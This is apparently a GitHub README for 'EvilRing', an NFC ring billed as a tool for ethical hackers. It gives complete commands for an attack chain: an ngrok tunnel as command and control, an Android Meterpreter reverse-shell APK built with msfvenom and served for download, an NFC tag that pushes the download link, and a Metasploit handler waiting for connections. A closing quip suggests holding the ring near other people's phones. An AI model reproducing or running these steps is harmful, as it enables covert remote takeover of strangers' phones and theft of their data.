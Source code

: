# EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:

1. Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz`

`tar -xzvf ngrok-v3-stable-linux-amd64.tgz`

`chmod +x ngrok`

`sudo mv ngrok /usr/local/bin/ngrok`

`rm ngrok-v3-stable-linux-amd64.tgz`

`ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`


2. Create an ngrok TCP tunnel

(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended -

Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3. Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4. Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080`

`./ngrok http 8080`

5. Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6. On your command and control open msfconsole:
  
`msfconsole -q`

(inside msfconsole)
`use exploit/multi/handler`

`set payload android/meterpreter/reverse_tcp`

`set LHOST 0.0.0.0`

`set LPORT 4242`

`run`
  
7.  (Dont) go an hold onto some phones!
